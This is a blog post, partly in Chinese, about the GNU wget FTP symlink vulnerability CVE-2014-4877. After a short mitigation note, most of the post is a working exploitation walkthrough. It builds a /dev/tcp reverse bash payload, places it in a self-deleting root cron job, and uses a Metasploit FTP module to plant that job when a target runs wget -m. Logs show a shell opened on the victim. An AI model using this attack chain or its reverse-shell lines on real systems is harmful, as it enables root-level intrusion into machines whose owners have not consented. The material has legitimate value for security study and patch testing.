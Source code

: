 ```yaml
---
layout: post
title: Wget FTP Attack Vulnerability
categories: [Security]
tags: [Wget, Sec]
---
```

<h2>{{ page.title }}</h2>

Wget-FTP-Attack-Vulnerability

Intro
===

>The flaw is triggered when wget receives a directory listing that includes a symlink followed by a directory with the same name.

#修复

    Upgrade to wget version 1.16 or a package that has backported the CVE-2014-4877 patch. If you use a distribution that does not ship a patched version of wget, you can mitigate the issue by adding the line “retr-symlinks=on” to either /etc/wgetrc or ~/.wgetrc.

#利用教程

##建立一个计划任务文件脚本

![msfpayload](https://38.media.tumblr.com/d3d2e79645b196345511d219e17ca39e/tumblr_nefu19ne0O1r68ev5o1_1280.png)

`msfpayload cmd/unix/reverse_bash LHOST=172.16.68.132 LPORT=4444 R`

    0<&66-;exec 66<>/dev/tcp/172.16.68.132/4444;sh <&66 >&66 2>&66r

![cronshell](https://33.media.tumblr.com/35a25081402967b01ef397e705655ec0/tumblr_nefu19ne0O1r68ev5o2_1280.png)

`cat cronshell`

    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    * * * * * root bash -c '0<&63-;exec 63<>/dev/tcp/172.16.68.132/4444;sh <&63 >&63 2>&63'; rm -f /etc/cron.d/cronshell

##配置本地监听

![locallisten](https://38.media.tumblr.com/ef91100a1142ab45e42af23e29a54187/tumblr_nefu19ne0O1r68ev5o3_1280.png)


    msf > use exploit/multi/handler                                                
    msf exploit(handler) > set PAYLOAD cmd/unix/reverse_bash                    
    PAYLOAD => cmd/unix/reverse_bash                                               
    msf exploit(handler) > set LHOST 172.16.68.132                                 
    LHOST => 172.16.68.132                                                         
    msf exploit(handler) > set LPORT 4444                                          
    LPORT => 4444                                                                  
    msf exploit(handler) > run -j                                                  
    [*] Exploit running as background job.                                         

    [*] Started reverse handler on 172.16.68.132:4444                              

    [*] Starting the payload handler...                                            
    msf exploit(handler) >  

##搭建一个匿名攻击ftp

![ftp](https://38.media.tumblr.com/a79c60eb6b5916b25fcf159f2f77dbc2/tumblr_nefucn1iM11r68ev5o1_1280.png)

    msf exploit(handler) > use auxiliary/server/wget_symlink_file_write                                                               
    msf auxiliary(wget_symlink_file_write) > set TARGET_FILE /etc/cron.d/cronshell
    TARGET_FILE => /etc/cron.d/cronshell                                        
    msf auxiliary(wget_symlink_file_write) > set TARGET_DATA file:cronshell     
    TARGET_DATA => file:cronshell                                               
    msf auxiliary(wget_symlink_file_write) > set SRVPORT 21                     
    SRVPORT => 21                                                               
    msf auxiliary(wget_symlink_file_write) > run                                
    [*] Auxiliary module execution completed                                    

    [+] Targets should run: $ wget -m ftp://172.16.68.132:21/                   
    [*] Server started.

##目标利用

![target](https://31.media.tumblr.com/fe5dc749c0087036d9df14c7c6ddb56d/tumblr_nefu19ne0O1r68ev5o5_1280.png)
![target](https://33.media.tumblr.com/7e331d6526543ca4d6b4365930b6d0c6/tumblr_nefu19ne0O1r68ev5o6_1280.png)


    [*] Server started.                                                         
    msf auxiliary(wget_symlink_file_write) > [*] 172.16.17.119:56396 Logged in with user 'anonymous' and password 'anonymous'...
    [*] 172.16.17.119:56396 -> LIST -a                                          
    [*] 172.16.17.119:56396 -> CWD /4BDZLdr5AdsK                                
    [*] 172.16.17.119:56396 -> LIST -a                                          
    [*] 172.16.17.119:56396 -> RETR cronshell                                   
    [+] 172.16.17.119:56396 Hopefully wrote 183 bytes to /etc/cron.d/cronshell  
    [*] Command shell session 1 opened (172.16.68.132:4444 -> 172.16.17.119:54412) at 2014-10-31 04:13:01 -0400
    sessions                                                                    

    Active sessions                                                             
    ===============                                                             

    Id  Type        Information  Connection                                     
    --  ----        -----------  ----------                                     
    1   shell unix               172.16.68.132:4444 -> 172.16.17.119:54412 (172.16.17.119)

    msf auxiliary(wget_symlink_file_write) > sessions -i 1                      
    [*] Starting interaction with 1...                                          

    ip a                                                                        
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00                   
        inet 127.0.0.1/8 scope host lo                                          
        valid_lft forever preferred_lft forever                                 
        inet6 ::1/128 scope host                                                
        valid_lft forever preferred_lft forever                                 
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 00:0c:29:21:5b:1c brd ff:ff:ff:ff:ff:ff                      
        inet 172.16.17.119/24 brd 172.16.17.255 scope global eth0               
        valid_lft forever preferred_lft forever         

#利用条件

>目标机开启crontab 和利用wget递归下载


#引用

[url1](http://bobao.360.cn/learning/detail/72.html)

[url2](https://community.rapid7.com/community/metasploit/blog/2014/10/28/r7-2014-15-gnu-wget-ftp-symlink-arbitrary-filesystem-access)

[url3](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/server/wget_symlink_file_write.rb)
